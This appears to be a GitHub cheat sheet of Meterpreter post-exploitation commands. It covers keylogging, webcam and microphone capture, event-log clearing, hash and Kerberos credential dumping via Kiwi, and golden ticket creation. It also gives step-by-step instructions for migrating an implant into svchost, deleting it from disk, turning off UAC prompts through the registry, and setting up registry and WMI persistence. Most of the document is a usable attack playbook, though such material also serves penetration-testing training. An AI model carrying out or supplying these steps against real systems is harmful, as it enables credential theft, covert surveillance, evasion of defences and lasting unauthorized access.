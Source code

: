 # Meterpreter commands

- Core commands will be helpful to navigate and interact with the target system. Below are some of the most commonly used. 
- Remember to check all available commands running the help command once a Meterpreter session has started.

## Post Exploitation Modules Reference
- https://www.offensive-security.com/metasploit-unleashed/post-module-reference/
## Core commands

-   `background`: Backgrounds the current session
-   `exit`: Terminate the Meterpreter session
-   `guid`: Get the session GUID (Globally Unique Identifier)

-   `help`: Displays the help menu
-   `info`: Displays information about a Post module
-   `irb`: Opens an interactive Ruby shell on the current session
-   `load`: Loads one or more Meterpreter extensions
-   `migrate`: Allows you to migrate Meterpreter to another process
-   `run`: Executes a Meterpreter script or Post module
-   `sessions`: Quickly switch to another session

## File system commands

-   `cd`: Will change directory
-   `ls`: Will list files in the current directory (dir will also work)
-   `pwd`: Prints the current working directory
-   `edit`: will allow you to edit a file
-   `cat`: Will show the contents of a file to the screen
-   `rm`: Will delete the specified file
-   `search`: Will search for files
-   `upload`: Will upload a file or directory
-   `download`: Will download a file or directory

## Networking commands

-   `arp`: Displays the host ARP (Address Resolution Protocol) cache
-   `ifconfig`: Displays network interfaces available on the target system

-   `netstat`: Displays the network connections
-   `portfwd`: Forwards a local port to a remote service
-   `route`: Allows you to view and modify the routing table

## System commands

-   `clearev`: Clears the event logs
-   `execute`: Executes a command
-   `getpid`: Shows the current process identifier
-   `getuid`: Shows the user that Meterpreter is running as
-   `kill`: Terminates a process
-   `pkill`: Terminates processes by name
-   `ps`: Lists running processes
-   `reboot`: Reboots the remote computer
-   `shell`: Drops into a system command shell
-   `shutdown`: Shuts down the remote computer
-   `sysinfo`: Gets information about the remote system, such as OS

## Others Commands (these will be listed under different menu categories in the help menu)

-   `idletime`: Returns the number of seconds the remote user has been idle
-   `keyscan_dump`: Dumps the keystroke buffer
-   `keyscan_start`: Starts capturing keystrokes
-   `keyscan_stop`: Stops capturing keystrokes
-   `screenshare`: Allows you to watch the remote user's desktop in real time
-   `screenshot`: Grabs a screenshot of the interactive desktop
-   `record_mic`: Records audio from the default microphone for X seconds
-   `webcam_chat`: Starts a video chat
-   `webcam_list`: Lists webcams
-   `webcam_snap`: Takes a snapshot from the specified webcam
-   `webcam_stream`: Plays a video stream from the specified webcam
-   `getsystem`: Attempts to elevate your privilege to that of local system
-   `hashdump`: Dumps the contents of the SAM database
## Modules
### Kiwi Commands
    Command                Description
    -------                -----------
    creds_all              Retrieve all credentials (parsed)
    creds_kerberos         Retrieve Kerberos creds (parsed)
    creds_msv              Retrieve LM/NTLM creds (parsed)
    creds_ssp              Retrieve SSP creds
    creds_tspkg            Retrieve TsPkg creds (parsed)
    creds_wdigest          Retrieve WDigest creds (parsed)
    dcsync                 Retrieve user account information via DCSync (unparsed)
    dcsync_ntlm            Retrieve user account NTLM hash, SID and RID via DCSync
    golden_ticket_create   Create a golden kerberos ticket
    kerberos_ticket_list   List all kerberos tickets (unparsed)
    kerberos_ticket_purge  Purge any in-use kerberos tickets
    kerberos_ticket_use    Use a kerberos ticket
    kiwi_cmd               Execute an arbitary mimikatz command (unparsed)
    lsa_dump_sam           Dump LSA SAM (unparsed)
    lsa_dump_secrets       Dump LSA secrets (unparsed)
    password_change        Change the password/hash of a user
    wifi_list              List wifi profiles/creds for the current user
    wifi_list_shared       List shared wifi profiles/creds (requires SYSTEM)

- Although all these commands may seem available under the help menu, they may not all work. For example, the target system might not have a webcam, or it can be running on a virtual machine without a proper desktop environment.

## New Meterpreter Session Steps 
- Assuming you gained access, inserted AV Path Exception, wrote implant to disk and executed to catch you callback 
````
getuid #see your user context
getpid #identify pid you are running as (should be the pid of your msfvenom implant named whatever you assigned)
getprivs #see enabled process privileges
ps #view the whole process list and pick and svchost process within the same user context, get its pid number
migrate XXXX #to the pid of the svchost process 
getpid #confirm new pid
ps #ensure it is of the correct process 
del /path/to/implant #remove implant artifact from disk 
````
- Now you are set up and running as a thread in the address space of the `svchost.exe` process 
### File collect with meterpreter 
- `download` and `upload` commands 
- Ensure you are escaping the windows "\"
- Example:
````
download C:\\Users\\Administrator\\Desktop\\secret.txt
````
## Post Modules for Windows Survey 
````
meterpreter > run post/windows/gather/arp_scanner RHOSTS=192.168.1.0/24
-----------------------------------------------------------------------
meterpreter > run post/windows/gather/checkvm 
-----------------------------------------------------------------------
meterpreter > run post/windows/gather/credentials/credential_collector 
**ENSURE SYSTEM before running
-----------------------------------------------------------------------
**ENSURE you migrate to a user process before running dumplinks**
meterpreter > run post/windows/manage/migrate 
meterpreter > run post/windows/gather/dumplinks 
-----------------------------------------------------------------------
meterpreter > run post/windows/gather/enum_applications 
-----------------------------------------------------------------------
meterpreter > run post/windows/gather/enum_logged_on_users 
-----------------------------------------------------------------------
meterpreter > run post/windows/gather/enum_shares 
-----------------------------------------------------------------------
meterpreter > run post/windows/gather/enum_snmp
-----------------------------------------------------------------------
meterpreter > run post/windows/gather/hashdump
**ENSURE SYSTEM before running 
-----------------------------------------------------------------------
meterpreter > run post/windows/gather/usb_history 
-----------------------------------------------------------------------
msf > use post/multi/recon/local_exploit_suggester
set SESSION X
SHOWDESCRIPTION true
-----------------------------------------------------------------------
````
## Powershell Extension 
````
meterpreter > load powershell
Loading extension powershell...Success.
meterpreter > powershell_shell
PS > 
````
### Change UAC to not Notify
````
Set-ItemProperty -Path REGISTRY::HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System -Name ConsentPromptBehaviorAdmin -Value 0
````
## Persistance Modules 
- Registry Run Key 
````
use exploit/windows/registry/local/registry_persistence
````
- Ensure to set the `RUN_NAME` at a minimum 
- WMI Event Subscription Persistance 
````
use exploit/windows/local/wmi_persistence
````
- Ensure failed login auditing is enabled on target 
- To enable:
````
auditpol.exe /set /subcategory:Logon /failure:Enable
`````
- Event ID for a failed logon is `4625`
- Ensure to set the `USERNAME_TRIGGER` and `SESSION` at a minimum 
- Cannot be run as SYSTEM or USER needs to be run with ADMINISTRATOR

